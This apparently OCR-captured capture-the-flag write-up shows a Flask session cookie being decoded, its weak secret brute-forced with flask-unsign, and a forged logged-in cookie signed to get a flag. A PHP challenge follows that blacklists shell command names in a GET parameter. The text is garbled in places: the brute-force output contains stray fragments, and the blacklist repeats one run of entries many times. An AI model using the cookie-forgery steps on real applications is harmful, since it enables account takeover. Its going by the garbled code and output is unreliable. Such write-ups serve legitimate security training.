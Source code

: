 ```
kali@kali:~/Tools/Flask-Unsign$ flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgaaNw.gZ34BWHsWppIXACELQuy-k6ZDP4'
{'logged_in': False}
                                                                                                                                                                                                   
kali@kali:~/Tools/Flask-Unsign$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgaaNw.gZ34BWHsWppIXACELQuy-k6ZDP4'
[*] Session decodes to: {'logged_in': False}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2176): -----BEGIN PRIVATE KEY-----;r
[+] Found secret key after 14976 attemptsIM9ASGmdGPmk
'password'
                                                                                                                                                                                                   
kali@kali:~/Tools/Flask-Unsign$ flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'

eyJsb2dnZWRfaW4iOnRydWV9.YhalVQ.lSib12AskwKN5YV3IYrLXe5ic6I

```

Now we replace the token with the one we have generated and we obtained the flag:

``` CTF{66bf8ba5c3ee2bd230f5cc2de57c1f09f471de8833eae3ff7566da21eb141eb7} ```


## para-code

I do not think that this API needs any sort of security testing as it only executes and retrieves the output of ID and PS commands.

We can see the following code:

```php
<?php
require __DIR__ . '/flag.php';

if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

$blackList = array(
  'ss','sc','aa','od','pr','pw','pf','ps','pa','pd','pp','po','pc','pz','pq','pt','pu','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','ls','dd','nl','nk','df','wc', 'du'
);

$valid = true;
foreach($blackList as $blackItem)
{
    if(strpos($_GET['start'], $blackItem) !== false)
    {
         $valid = false;
         break;
    }
}
```